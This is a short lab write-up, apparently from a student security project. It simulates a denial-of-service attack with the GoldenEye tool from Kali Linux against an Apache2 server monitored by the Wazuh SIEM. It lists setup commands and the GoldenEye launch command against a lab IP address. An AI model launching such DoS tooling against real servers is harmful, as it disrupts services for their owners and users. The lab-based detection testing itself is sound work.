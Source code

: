 # Attack Simulation – GoldenEye

## Environment
- **Attacker:** Kali Linux
- **Target:** Ubuntu-Agent (Apache2 Web Server)
- **SIEM/IDS:** Wazuh 

## Steps

- **Step 1:** Kali Linux system updates and basic network tools installed. 
  (See Figure 9.1)

	sudo apt update && sudo apt upgrade -y
	sudo apt install net-tools curl wget htop -y

- **Step 2:** GoldenEye DoS tool cloned and installed. 
  (See Figure 9.2)

	git clone https://github.com/jseidl/GoldenEye.git	

- **Step 3:** Apache2 Web Server installed and activated on Ubuntu-Agent. 
  (See Figure 9.3 & 9.4)

	sudo apt update && sudo apt install apache2 -y
	sudo systemctl start apache2
	sudo systemctl enable apache2

- **Step 4:** GoldenEye launched against the web server. 
  (See Figure 9.5 & 9.6) 
	
	cd GoldenEye
	python3 goldeneye.py http://192.168.185.70 -w 10 -s 100

	
## Notes
GoldenEye was used strictly for academic and research purposes within a controlled lab environment.
